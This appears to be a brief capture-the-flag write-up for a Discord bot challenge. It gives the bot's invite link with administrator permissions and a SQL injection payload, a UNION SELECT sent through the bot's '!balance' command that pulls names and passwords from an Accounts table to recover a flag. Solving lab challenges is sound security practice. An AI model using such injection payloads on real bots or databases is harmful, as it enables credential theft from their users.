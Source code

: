 Invite bot on a discord server : `https://discord.com/api/oauth2/authorize?client_id=1055442123190710272&permissions=8&scope=bot` (need to be admin)

payload : `!balance "1 UNION SELECT name,password,null from Accounts"` flag is Bowser password